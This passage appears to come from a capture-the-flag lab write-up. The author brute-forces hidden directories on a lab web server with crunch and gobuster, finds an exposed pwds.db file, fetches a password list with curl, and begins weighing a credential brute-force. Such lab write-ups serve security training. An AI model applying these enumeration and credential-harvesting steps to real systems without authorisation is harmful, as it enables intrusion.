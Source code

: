 On port 65334, there's not much but a notice that a database is 'Under Development'!

![](https://image.ibb.co/bEfr0y/webpage2.png)

This could be worth an enum as perhaps the administrator has left database files lying around in this webroot.  This part truthfully had me stumped for a while, as  the standard wordlists yielded nothing.  Thankfully I was told that this was the route in.  A blind brute-force of every combination of 3-5 characters does yield a result.

```bash  
root@kali:~/panther# crunch 3 5 -f /usr/share/crunch/charset.lst lalpha -o dbcrunch.txt  
Crunch will now generate the following amount of data: 73643440 bytes  
70 MB  
0 GB  
0 TB  
0 PB  
Crunch will now generate the following number of lines: 12355928  
  
crunch: 100% completed generating output  
root@kali:/usr/share/seclists# gobuster -u http://192.168.0.74:8085 -w /root/panther/dbcrunch.txt -x db  
  
Gobuster v1.4.1 OJ Reeves (@TheColonial)  
=====================================================  
=====================================================  
[+] Mode : dir  
[+] Url/Domain : http://192.168.0.74:8085/  
[+] Threads : 10  
[+] Wordlist : /root/panther/dbcrunch.txt  
[+] Status codes : 301,302,307,200,204  
[+] Extensions : .db  
=====================================================  
/pwds.db (Status: 200)  
root@kali:/usr/share/seclists# curl http://192.168.0.74:8085/pwds.db  
FJ(J#J(R#J  
JIOJoiejwo  
JF()#)PJWEOFJ  
Jewjfwej  
jvmr9e  
uje9fu  
wjffkowko  
ewufweju  
pinkyspass  
consoleadmin  
administrator  
admin  
P1nK135Pass  
AaPinkSecaAdmin4467  
password4P1nky  
Bbpinksecadmin9987  
pinkysconsoleadmin  
pinksec133754  
```
So we've got some passwords, but we don't just want to brute-force every combinations of usernames, passwords, and PIN's.  That'd take way too long (around 10-12 hours I think was my estimate doing a quick trial run).
